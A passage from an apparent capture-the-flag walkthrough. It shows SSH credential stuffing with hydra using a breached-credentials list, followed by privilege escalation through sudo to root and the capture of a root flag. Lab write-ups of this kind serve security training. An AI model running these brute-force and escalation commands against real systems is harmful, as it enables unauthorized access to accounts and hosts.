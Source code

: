 **2. Restart the SSH service:**
```bash
sudo /bin/systemctl restart sshd
```

**3. Conduct the credential stuffing attack:**
```bash
hydra -L users.txt -P breachedCreds.txt $ip ssh
```
<details><summary>Hydra Output</summary></details>

---

### sys-admin, Elevate to Root

#### Steps:

**1. Switch from `net-admin` to `sys-admin`:**
```bash
su sys-admin
```

**2. Enumerate `sys-admin` sudo privileges:**
```bash
sudo -l
```
<details><summary>Sudo Privileges for sys-admin</summary></details>

**3. Switch to the root user:**
```bash
sudo su
```

**4. Verify root access:**
```bash
id
```
<details><summary>Root Verification Output</summary></details>

**5. Obtain the root flag:**
```bash
cat /root/rootFlag.txt
